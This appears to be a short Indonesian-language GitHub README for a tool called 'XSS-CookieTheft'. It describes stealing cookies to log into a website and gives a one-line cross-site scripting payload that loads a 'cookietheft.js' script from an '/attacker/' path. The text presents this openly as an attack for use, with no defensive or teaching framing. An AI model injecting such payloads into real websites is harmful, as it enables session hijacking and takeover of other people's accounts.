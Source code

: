 # XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

# Simple Payload
`<script src="http://localhost:8089/attacker/relogin/cookietheft.js"></script>`
